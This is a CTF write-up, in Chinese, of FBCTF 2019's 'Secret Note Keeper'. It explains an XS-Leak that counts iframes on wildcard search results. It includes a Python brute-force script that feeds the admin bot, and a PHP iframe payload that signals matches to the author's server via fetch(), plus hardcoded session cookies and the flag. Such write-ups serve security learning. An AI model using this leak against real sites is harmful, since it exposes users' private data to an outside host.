 # Secret Note Keeper

## 題目分析

- 這題乍看之下功能跟 35C3 filemanager 沒啥兩樣
    - login/logout/register
    - Add Note
    - Search Note
    - Report Bug
- 回報自己的 domain 看一下 BOT 的 User-Agent:
    - `HeadlessChrome/74.0.3729.169 Safari/537.36`
    - Chrome 74，看起來沒辦法用 XSS Auditor 去判斷
- 踹了一下，發現有兩種特殊字元
    - `_`能匹配任意一個字元
    - `%`能匹配任意多個字元
- 另外在 Search Note ，如果有找到時，會用 iframe 把該 note 抓進來

## Exploit

- 這題很明顯想考 XS-Leak
- 到這邊大概就能想到可以利用 frame count 去判斷是否有找到 Note
    - 有找到 => frame count >= 1
    - 沒找到 => frame count = 0

- 寫個腳本暴力搜一下就行:

```python
import requests
import hashlib
import re


def POW(target):
    mx = 10 ** 9
    nonce = 0
    while nonce < mx:
        string = str(nonce)
        hash_result = hashlib.md5(string).hexdigest()
        if hash_result.startswith(target):
            print(hash_result)
            return string
        nonce += 1

alphabet = "@#$%^&*()-=+~:?0123456789|abcdefghijklmnopqrstuvwxyz<>ABCDEFGHIJKLMNOPQRSTUVWXYZ_"

for i in alphabet:

    cookie = {"session":"286b4d92-cf9d-4d8e-9da2-0d0ce6317ac2", "session":".eJwljjkOwzAMBP_C2oUOkiL9mUA8hKS14yrI32Mg2HJmgP3AYx15PmF_H1du8HgF7CAqXNVwJmG0qj0saBWt6qUPjegmprfC5u6JVKVRXblWcZ73PI14Yl9cR5_CLDciTjJyq3fVE4uMKbpKM13JEpjC3tpAD9jgOvP4n8HW4PsDAtIvzQ.XPJRVA.1J6roM-pNGSVmS9OS0rJr_BICpI;"}

    r = requests.get("http://challenges.fbctf.com:8082/report_bugs", cookies=cookie)
    #print(r.cookies)

    x = re.findall("proof of work for (.*) \(", r.text)
    print(x[0])

    ans = POW(x[0])
    print "ans:" + ans

    r2 = requests.post("http://challenges.fbctf.com:8082/report_bugs", data={"link":"http://kaibro.tw/log.php?1="+i, "pow_sol":ans, "body":"","title":""}, cookies=r.cookies)
    print r2.text
```

其中 log.php:

```php
<iframe src="http://challenges.fbctf.com:8082/search?query=fb{cr055_s173_l34<?php echo $_GET[1];?>%}" onload="if(this.contentWindow.length>=1){fetch('http://kaibro.tw/?fb=ok');}">
```

如果收到 `ok` 就代表找到該字元，就能繼續爆下一個字元

flag: `fb{cr055_s173_l34|<5_4r4_c00ool!!}`
